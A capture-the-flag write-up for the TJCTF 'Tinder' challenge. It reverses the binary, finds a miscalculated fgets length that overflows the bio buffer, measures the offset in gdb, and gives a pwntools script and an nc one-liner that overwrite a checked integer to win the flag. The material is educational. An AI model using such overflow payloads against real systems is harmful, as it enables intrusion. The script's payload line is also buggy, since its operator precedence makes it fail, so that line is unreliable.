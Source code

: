 # Tinder

Points: **25 Points**

nc p1.tjctf.org 8002

## My thought process:

Fire it up! Time to put my simulation dating skills to practice!

![Rejected!](example_run.png "Rejected!")

:( Maybe I'm not cool enough!
Just kidding, so taking notes, we have 4 inputs and username is reflected in "Registered {username} to TJTinder..", possible printf exploit?

So, let's try it!

![RejectedAgain!](printf_run.png "Rejected Again!")

No luck, we could try to overflow it, but let's look at the source code first. Even if its an overflow flaw, we should get more precision by reading the source. So I opened it in Ghidra.

Here's the core of the main function:

![main.c](main-function.png "main source code")


So if that int variable is equal something, we get our flag read! Amazing.

We probably want to deep dive into the functions that read our input, gets, scanf, read, but what's that? input? Never seem something like that, and what's even weirder, it takes a float argument? Hm....

Before jumping into the input function, let's take some notes on the code.

So I stripped some code to highlight our areas of interest.

![stripped.c](stripped.png "stripped code")

We have to check the input function and then look at the input we must pass to _my_checked_number_.

Let's look at the input function first.

![input.c](input.png "input function code")

It uses fgets to read, hmmm.., interesting, but how many chars does it read?

It reads our float passed to the function times 16.

🤔

![thinking emoji](https://media.giphy.com/media/CaiVJuZGvR8HK/giphy.gif "Thinking emoji")

What's the size of our buffers?

I've translated the input argument to the corresponding bytes read.

![input_bytes.c](input_bytes.png "input function code with bytes")

Oops! Looks like someone miscalculated something.

Now we now our entry point! We have to overflow the bio description and in some way overwrite _my_checked_number_.

Let's take a look at what we have to write in it.

I had a glance at it in gdb, but there's other ways you can find this value.
I was in gdb to check what was the offset needed to overflow our int.

I started throwing 64 bytes at it. With the following commands:

* b* main+231 (right after bio input)
* r < <(echo -e 'name\n''user\n''123\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
* x/80wx $esp

Let's look at the dissas code of main.

![main_gdb.c](main_gdb.png "main gdb")

So now we know that that value was 0xc0d3d00d, but how far off is 64 bytes from the int(ebp-0xc) ?

```bash
gdb-peda$ i r ebp
ebp            0xffffd3a8          0xffffd3a8
gdb-peda$ shell python -c 'print( hex(0xffffd3a8-0xc))'
0xffffd39c
```

![offset_image](offset.png "offset gdb")

Our "A"'s are the 0x41, each block has 4 chars, we are 13 blocks away, so our offset is 64 + (13 * 4), and our payload:

'A'*(64 + (13 * 4)) + 0xc0d3d00d


---
_ps_: You could get 0xc0d3d00d by removing the signal of -0x3f2c2ff3, and then passing it to hex.

```python3
>>> # removing signal
>>> -0x3f2c2ff3 & 0xffffffff
3235106829
>>> # hexing the result
>>> hex(-0x3f2c2ff3 & 0xffffffff)
'0xc0d3d00d'
```  
  
  
### Final script
---

```python3
#!/usr/bin/env python
from pwn import *

#e = ELF('tinder')
#io = e.process()
io = remote('p1.tjctf.org', 8002)
#context.terminal = ['tmux', 'splitw','-h']
#gdb.attach(io)

io.recvuntil('Name: ')
io.sendline('name')
io.recvuntil('Username: ')
io.sendline('username')
io.recvuntil('Password: ')
io.sendline('password')
io.recvuntil('Bio: ')

payload = 64 + (13 * 4) * b'A'
payload += p32(0xc0d3d00d)
io.sendline(payload)

io.interactive()
```

We are using pwntools here, but if you are doing it by hand, with echo and stuff, remember little-endian.
Something like

```bash
echo -e 'name\n''user\n''pass\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0d\xd0\xd3\xc0\n' | nc p1.tjctf.org 8002
```

### Result
---

```
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```
